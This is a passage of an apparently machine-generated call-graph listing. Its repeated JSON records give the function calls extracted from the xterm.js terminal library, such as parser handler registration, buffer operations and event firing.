"relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_identifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "identToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setPrintHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearPrintHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_identifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_identifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_identifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setEscHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_identifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_identifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_identifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCsiHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setDcsHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setOscHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setErrorHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearErrorHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_printHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_printHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_printHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_printHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_executeHandlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_csiHandlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addSubParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addDigit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_escHandlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addSubParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addSubParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasSubParams"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSubParams"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "subarray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSubParamsAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addDigit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadAddon"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_wrappedAddonDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_wrappedAddonDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cursorX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "viewportY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "baseY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNullCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isWrapped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onBufferActivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "active"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "alternate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "versions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeVersion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeVersion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "buffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBlankLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "recycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "copyFrom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shiftElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addProtocol"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEncoding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addProtocol"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addEncoding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeProtocol"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "areMouseEventsActive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeProtocol"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeEncoding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeEncoding"}, {"confidence": "EXTRACTED", "relation": 